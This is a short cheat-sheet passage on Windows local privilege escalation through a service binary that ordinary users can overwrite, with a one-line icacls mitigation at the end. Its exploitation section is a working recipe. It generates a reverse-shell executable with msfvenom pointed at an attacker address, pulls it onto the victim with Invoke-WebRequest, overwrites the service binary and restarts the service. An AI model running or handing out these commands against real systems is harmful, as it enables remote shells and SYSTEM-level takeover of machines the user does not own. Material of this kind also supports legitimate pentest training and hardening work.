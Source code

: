 ![](/images/cheatsheets/Windows-LPE/Weak-Service-Binary-Manual-Enumeration.png)
```
sc qc "Vulnerable Service 2"
```
![](/images/cheatsheets/Windows-LPE/Weak-Service-Binary-Manual-Enumeration-Part-2.png)

### Tool Enumeration
```powershell
$ SharpUp.exe audit ModifiableServiceBinaries
```
### Exploitation
```powershell
$ sc stop "Vulnerable Service 2"

on attacker:
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.15 LPORT=9001 -f exe > Service2.exe

on victim:
$ iwr -Uri http://<ip>:<port>/Service2.exe -Outfile C:\Program Files\CustomSrv2\Service2.exe
$ sc start "Vulnerable Service 2"
```
### Mitigation
```powershell
icacls "C:\Program Files\CustomSrv2\Service2.exe" /remove:g BUILTIN\Users:(M)
```

